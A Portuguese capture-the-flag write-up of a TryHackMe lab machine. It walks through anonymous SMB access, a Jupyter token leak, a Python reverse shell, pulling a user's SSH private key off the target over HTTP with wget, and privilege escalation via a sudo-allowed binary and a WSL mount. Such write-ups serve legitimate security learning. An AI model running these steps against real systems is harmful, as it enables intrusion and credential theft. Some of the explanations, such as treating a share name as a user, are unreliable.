# Weasel - THM Challenge writeup

Recon NMAP 

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-18 16:42 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:42
Completed NSE at 16:42, 0.00s elapsed
Initiating NSE at 16:42
Completed NSE at 16:42, 0.00s elapsed
Initiating NSE at 16:42
Completed NSE at 16:42, 0.00s elapsed
Initiating SYN Stealth Scan at 16:42
Scanning weasel.thm (10.10.200.72) [19001 ports]
Discovered open port 22/tcp on 10.10.200.72
Discovered open port 445/tcp on 10.10.200.72
Discovered open port 139/tcp on 10.10.200.72
Discovered open port 3389/tcp on 10.10.200.72
Discovered open port 8888/tcp on 10.10.200.72
Discovered open port 135/tcp on 10.10.200.72
```

Porta 8888 HTTP service rodando



Nada aparente nessa página, FFUF não retornou nenhuma URL. Descobrimos que a aplicação é python em um TornadoServer 6.0.3.

Vamos enumerar outras outras portas. 



Achamos algumas informações de usuário, vamos continuar buscando. Depois de algumas horas tentando achar informações sobre enumeração com smbclient achei esse comando: ```smbclient -L <IP> -p 445 -N```. A ferramenta vai enumerar todos os usuários smb do ip na porta 445.

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
datasci-team    Disk      
IPC$            IPC       Remote IPC
```

Então temos o usuário RPC datasci-team.


```smbclient \\\\\10.10.200.72\\datasci-team -N```. Como é a minha primeira máquina windows usando smbclient, não sabia a necessidade de usar as contrabarras. Elas escapam os caracteres especiais. 

Antes de dar continuidade precisamos entender o que é o smbclient. Smbclient é um CLI que usa o protocolo smb para troca de arquivos.  

```get <arquivo>``` - Faz download do arquivo na sua máquina.



Achamos o token da aplicação web que olhamos no começo.



Lendo os arquivos, encontramos um arquivo com o nome ```weasel.ipynb```, vamos tentar usar a criatividade aqui.



Conseguimos executar scripts python3, então entramos no site https://www.revshells.com/ e montamos uma shell em python3. Essa shell precisa de modificações, pois dessa forma é feita com CLI do proprio python. 






Aqui, temos a shell formatada. Como o python é interpretado na máquina que a aplicação web está hospedada a shell entrará também na máquina do escopo. 



Ao abrirmos a shell padrão:

```export TERM=xterm```



Certo, vasculhando pelas informações do usuário, conseguimos achar a private key ssh do usuário. Então sabendo que a máquina tem python3, podemos montar um servidor HTTP python para fazer download do key.

```python3 -m http.server 8000```

Então usamos o wget para fazer o download na máquina hospedeira do usuário. 

```wget http://<ip>/<arquivo>```



Então adicionamos a permissão 600 para esse arquivo e entramos no ssh do usuário.

ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@ip



Então com o user em mãos, capturamos user.txt



Ambiente windows para escalação de privilégio, algo novo pra quem está acostumado com escalação linux. Vamos buscar no google por métodos de escalação de privilégio windows.




Certo, então descobrimos que o arquivo jupter tem acesso ao su. 

```cp /bin/bash /home/dev-datasci/.local/bin/jupyter``` colocamos dentro do diretório jupyter com permissão de su, o arquivo binário do terminal bash do linux~.

Olhamos o diretório root e vimos que não temos a flag. Ou seja, um linux com windows... Isso tem cheiro de WSL. Vamos checar se é realmente WSL -
```cat /etc/wsl.conf ```.


Pesquisando um pouco, achamos esse milagroso comando:

sudo mount -t drvfs C: /mnt/c

Então, montamos de dentro do WSL o disco C.



